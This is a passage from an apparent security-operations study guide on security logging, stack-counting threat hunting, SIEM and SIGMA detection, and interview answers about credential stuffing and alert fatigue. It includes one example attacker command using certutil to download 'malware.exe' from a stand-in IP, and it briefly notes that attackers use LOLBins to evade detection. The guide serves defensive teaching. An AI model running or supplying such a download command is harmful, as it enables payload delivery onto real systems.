The design implication for application engineers: building observability in means
logging security events at the point of occurrence (authentication, authorization,
data access) not as an afterthought added by a platform team later.
"Security logging as a platform concern" is a common trap: the platform team
ships structured logs to the SIEM, but the application team decides what to log.
If the application team doesn't log authentication failures (because "those are just
bad logins"), the SIEM has no data to detect credential stuffing.
The correct model: application teams own security event logging for their domain.
Platform teams own collection, normalization, and storage.
Security team owns detection rules.
Everyone is in the observability chain.
A security event that happens but isn't logged: as if it never happened - until
the breach is discovered and the forensic record is empty.

---

### 💡 The Surprising Truth

The most effective threat hunting technique at scale is not running complex ML models.
It's a simple idea: "stack counting" (frequency analysis of rare events).

The technique:
1. Take all process execution events (who ran what command) for the last 30 days.
2. Count how many times each unique command was run.
3. Sort by count, ascending.
4. Investigate the rarest commands first.

Why it works:
Legitimate operations repeat. Payroll runs every two weeks. Backups run every night.
Application servers make the same API calls millions of times.
Attackers: run each attack tool or command a small number of times (often just once).
`certutil.exe -urlcache -split -f http://1.2.3.4/malware.exe` → count: 1.
Legitimate certutil.exe usage in your environment → count: 0 (or maybe 2-3).
`1` is extremely interesting. Investigate.

This is why "rare = suspicious" is a fundamental threat hunting heuristic.
Red teams and penetration testers learned this the hard way: using obscure tools
leaves a low-frequency signature that a good hunter will find.
Using common tools (LOLBins - Living off the Land Binaries that already exist on the OS)
is the evasion strategy: blend into the high-count legitimate processes.

The adversarial response: attackers now use LOLBins (PowerShell, WMI, certutil, mshta)
because they're high-frequency in legitimate environments.
The counter-response: context analysis ("certutil.exe with these specific flags, run by
a user who has never run it before, at 3 AM, on a server that has no business need for
certificate operations").

The arms race between detection and evasion is the core of security operations.
MTTD improves not just by adding more rules, but by building hunters who
think adversarially and continuously find what the rules miss.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **LIST** the Tier 1 security events that MUST be logged: authentication success/failure,
   authorization failures, privilege escalation, admin actions, data export above threshold.
2. **DEFINE** MTTD and state IBM 2024 baseline (194 days). State the target for mature SOC (< 24 hours).
   Describe how SIEM + SOAR reduces MTTD.
3. **EXPLAIN** alert fatigue: too many low-quality alerts → analysts stop investigating → real breaches
   missed. Fix: alert only on High/Critical, SOAR automation for routine responses, threat hunting.
4. **WRITE** a basic SIGMA rule structure: title, logsource (category/product/service), detection
   (selection + timeframe + condition), level. Explain it converts to Splunk SPL/Elastic DSL/Sentinel KQL.
5. **DESCRIBE** detection engineering: convert MITRE ATT&CK techniques into correlation rules,
   version-control rules as code (SIGMA), test against log samples, deploy via CI/CD.

---

### 🎯 Interview Deep-Dive

**Q: What security events must every application log? How would you detect a credential
stuffing attack using a SIEM? What is alert fatigue and how do you fix it?**

*Why they ask:* Tests security observability depth, operational security knowledge,
and the ability to design detection systems. Common in security engineering, senior/staff
backend roles, and DevSecOps interviews.

*Strong answer covers:*
- Must-log events: authentication (success/failure, with IP + user + timestamp + device),
  authorization failures (what was denied + who + what resource), privilege escalation
  (sudo, role assumption, admin actions), data export events (who + what + how much),
  security-relevant configuration changes. Structured logging (JSON) with correlation IDs.
- Credential stuffing detection: correlation rule in SIEM: window=5min,
  condition= failed_auth > 1000 AND distinct_src_ip > 50. Severity=HIGH.
  Follow-up rule: for each account with 5+ failures then 1 success from a new IP:
  severity=CRITICAL (active account takeover detected). SOAR response: lock account,
  force password reset, block high-confidence attacker IPs in WAF.
- Alert fatigue: too many low-signal alerts → analysts auto-close without investigation →
  real attacks hidden in noise → effectively zero monitoring despite active SIEM.
  Fix: (1) Alert ONLY on High/Critical (Medium/Low → dashboard, no page).
  (2) SOAR automates routine responses (don't alert for what you auto-resolve).
  (3) Start with MTTD metric: if > 24 hours, alert quality is broken.
  (4) Target < 50 actionable alerts per analyst per day (investigate > 80% of them).
  (5) Tune quarterly: false positive rate per rule, suppress justified false positives.
  (6) Threat hunting fills the gap that alerting misses.